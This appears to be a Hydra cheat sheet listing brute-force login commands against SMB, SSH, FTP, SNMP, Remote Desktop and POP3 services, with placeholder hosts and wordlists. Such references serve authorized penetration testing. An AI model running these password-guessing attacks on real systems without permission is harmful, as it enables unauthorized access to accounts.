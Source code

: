 # hydra: bruteforce smb login 
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp

# hydra: bruteforce ssh login (-V, -v verbose)
hydra -l root -P passwordlist ssh://ipv4Address -V

# hydra: bruteforce ftp login
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp

# hydra: bruteforce SNMP
hydra -P password-file.txt -v ipv4Address snmp

# hydra: bruteforce Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address

# hydra: bruteforce POP3
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V